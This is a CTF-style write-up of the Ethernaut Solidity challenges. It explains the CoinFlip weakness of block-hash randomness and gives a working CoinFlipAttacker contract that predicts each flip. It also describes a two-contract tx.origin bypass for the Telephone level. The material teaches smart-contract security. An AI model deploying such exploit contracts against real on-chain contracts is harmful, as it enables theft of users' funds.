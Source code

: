 In this level we have to predict ten times in a row the value of a "coin flip". This coin flip is represented by a value that can be either TRUE or FALSE. This value is calculated as the integer division between a `uint256` derived from the `block number` and a constant number `FACTOR`.

The problem is that `block number` [should not be used as a source of randomness](https://solidity-by-example.org/hacks/randomness/). The attacker can predict the correct guess each time. I implemented this solution in section Solution Source Code.

### Further Reading / Sources

- Ethereum Blocks - https://ethereum.org/en/developers/docs/blocks/
- Solidity Global Variables - https://docs.soliditylang.org/en/develop/units-and-global-variables.html#block-and-transaction-properties

### Solution Source code

```
// SPDX-License-Identifier: MIT
// Deployed at: 0xdD4997733eE8d16A778B5C0D6f5583D90A0C2800 In Rinkeby Test Network

pragma solidity ^0.8.7;

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlipAttacker {
    
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    uint256 wins = 0;
    address coinFlipInstance = 0x472A3F7B9d5cc301856000d8A80c6363085331EE;

    function guessFlip(uint256 blockValue) public view returns (bool) {
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        return side;
    }

    function attack() public {
        bool guess = guessFlip(uint256(blockhash(block.number - 1)));
        ICoinFlip(coinFlipInstance).flip(guess);
    }
}
```

## Telephone

The problem relies in the use of `tx.origin` to authenticate who called the contract when the code should have used `msg.sender`. In this case the challenge's code checks that `tx.origin` != `msg.sender`. To pass this check I created two contracts. The first one `CallOne` calls the second one `CallTwo`. This second contract then calls `Telephone`. In this way and taking into account the last contract's context, `tx.origin` == `CallOne Contract Address` and `msg.sender` == `CallTwo Contract Address`. 
